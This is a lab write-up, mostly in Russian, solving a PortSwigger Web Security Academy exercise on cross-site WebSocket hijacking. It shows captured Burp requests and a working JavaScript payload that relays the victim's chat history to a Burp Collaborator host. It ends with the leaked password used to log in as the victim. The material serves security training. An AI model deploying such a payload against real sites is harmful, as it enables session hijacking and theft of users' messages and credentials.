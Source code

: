 # Lab: Cross-site WebSocket hijacking
PRACTITIONER

This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.

## Решение
На вкладке Proxy -> HTTP History нахожу запрос, в ответ на который сервер отвечает статусом 101:
```
GET /chat HTTP/2
Host: 0a7c0070049c9ab282d1112f00880064.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-Websocket-Version: 13
Origin: https://0a7c0070049c9ab282d1112f00880064.web-security-academy.net
Sec-Websocket-Key: dhN6/lFVzbAJJO+YPLIb9w==
Connection: keep-alive, Upgrade
Cookie: session=yvUnh7K8o3Tw8F5ZxQbuGRPy1kOOl5Cf
Sec-Fetch-Dest: websocket
Sec-Fetch-Mode: websocket
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```
```
HTTP/1.1 101 Switching Protocol
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: nPl/RzQyS4C+a45yc8s502og1P4=
Content-Length: 0
```
Выбираю запрос (не ответ), в контекстном меню (правый клик) выбираю "Copy URL". Этот URL использую в качестве параметра конструктора WebSocket.

Запускаю коллаборатор, нажимаю Copy to clipboard. Полученный URL использую в качестве адреса для fetch:
```
<script>
const ws = new WebSocket('wss://0a7c0070049c9ab282d1112f00880064.web-security-academy.net/chat');
ws.onopen = function() {
  ws.send('READY');
};
ws.onmessage=function(event) {
  fetch('https://323eowybeghwufuojd9lk8har1xsli97.oastify.com', { method: 'POST', mode: 'no-cors', body: event.data });
};
</script>
```
Отправляю эксплойт агенту. В коллабораторе нажимаю "Poll now", приходит история сообщений. Первый запрос содержит ответ с паролем пользователя:
```
POST / HTTP/1.1
Host: 323eowybeghwufuojd9lk8har1xsli97.oastify.com
Connection: keep-alive
Content-Length: 82
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://exploit-0ac300e204489a94820c101201a10062.exploit-server.net
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: https://exploit-0ac300e204489a94820c101201a10062.exploit-server.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

{"user":"Hal Pline","content":"No problem carlos, it&apos;s wvb9d2816hxb3a6qynpx"}
```
Авторизуюсь как carlos:wvb9d2816hxb3a6qynpx. Задание выполнено.
